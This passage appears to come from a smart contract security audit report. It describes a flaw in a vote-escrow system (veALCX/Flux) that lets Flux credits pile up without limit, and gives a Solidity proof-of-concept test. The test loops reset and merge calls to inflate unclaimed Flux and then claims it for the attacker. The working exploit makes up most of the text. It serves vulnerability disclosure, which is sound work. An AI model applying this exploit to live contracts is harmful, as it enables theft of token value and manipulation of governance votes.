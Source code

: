 
Capital for the attack: Gas to execute the transactions. Amount of BPT can be big, the the bigger amount of Flux tokens can be minted, manipulated. 

Easy to exploit and easy to be automated. 

## Proof of concept
#  Proof of concept

The POC code: 
```solidity
function testFluxAccrualUnlimited_Hacked() public {
        
        address attacker = address(this); 

        console2.log("Start to create 4 tokenIds by calling createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint index = 0; 
        uint count = 9; 
        uint256 tokenId1; 
        uint256 tokenId2; 
        
        uint256 unclaimedFlux; 

            tokenId1 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
          
        for (index = 0; index < count; ++index )
        {   
            console2.log("index: %s", index);
            console2.log("Call voter.reset(tokenId1)"); 
            voter.reset(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
            console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
            console2.log("Call  veALCX.merge() to merge tokenId"); 
            tokenId2 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
            veALCX.merge(tokenId1, tokenId2);
            tokenId1 =  tokenId2 ; 
        
        }
        
        voter.reset(tokenId1);
        
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
               
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
        
        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
```